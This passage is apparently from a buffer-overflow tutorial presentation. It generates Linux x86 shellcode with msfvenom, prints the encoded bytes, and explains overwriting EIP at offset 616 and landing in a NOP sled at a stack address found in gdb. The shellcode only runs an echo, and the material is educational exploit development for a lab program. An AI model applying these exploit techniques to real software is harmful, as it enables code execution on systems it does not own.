 
<h2>Shellcode</h2>

<p>There is theoretical value in going through a C shellcode disassembly by hand – compiling your own C code, getting the machine code, then substituting the “bad character” executions manually. For the purposes of this example however, we will leverage msfvenom to create a payload for us. </p>
<p>The purpose of the shellcode will be to execute an ‘echo “this is awesome”’. The options however are almost limitless.</p>
<p>Notice below the -b ‘\x00’. Since 0x00 is a null terminator we are telling msfvenom to avoid or substitute any commands that would have 0x00. More explanation into how this is done manually is covered in the shellcode chapter of <i>Shellcoder’s Handbook</i>.</p>

{% highlight python %}
msfvenom -p linux/x86/exec CMD='echo "This is awesome!"' -b '\0x00' -f python
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 86 (iteration=0)
x86/shikata_ga_nai chosen with final size 86
Payload size: 86 bytes
Final size of python file: 424 bytes
buf =  ""
buf += "\xb8\x0d\xdf\x57\xba\xd9\xc5\xd9\x74\x24\xf4\x5a\x31"
buf += "\xc9\xb1\x0f\x31\x42\x15\x83\xc2\x04\x03\x42\x11\xe2"
buf += "\xf8\xb5\x5c\xe2\x9b\x18\x05\x7a\xb6\xff\x40\x9d\xa0"
buf += "\xd0\x21\x0a\x30\x47\xe9\xa8\x59\xf9\x7c\xcf\xcb\xed"
buf += "\x67\x10\xeb\xed\xf2\x73\x83\x82\xdc\x51\x07\x35\x74"
buf += "\xe5\x87\xac\xf5\x29\xa6\x59\x9f\x5a\x47\xcb\x3a\xbc"
buf += "\xb5\x13\x92\xed\x30\xf2\xd1\x92"
{% endhighlight %}


<h2>Payload</h2>
<p align="center">
<img src="{{ '/assets/bof-presentation/slide11.PNG' | relative_url }}">
</p>
Let’s put this all together. Our plan is to combine a 616 byte payload that will control the execution flow into our custom shellcode. We know that EIP gets overwritten at 616, which means we can pack our shellcode in the buffer beforehand. We will leverage a technique called <b>NOP Sledding</b> and point EIP to an address within the NOP Sled region. 


<h2>Payload - Part 2</h2>
<p align="center">
<img src="{{ '/assets/bof-presentation/slide12.PNG' | relative_url }}">
</p>

<p>A NOP Sled is a series of 0x90 (NOP - or No Operation) where the program does not perform any commands other than move to the next instruction. If we put a series of these together, as long as we redirect the execution flow anywhere within the NOP chunk, we would “slide” to the end of NOPs where our next execution command (in our case, the shellcode) is located.</p>
<p>We locate the address within our NOP Sled (what we want to set EIP to) by investigating the stack within gdb and determining the address 0xffffd0a4 where the sled begins.</p>
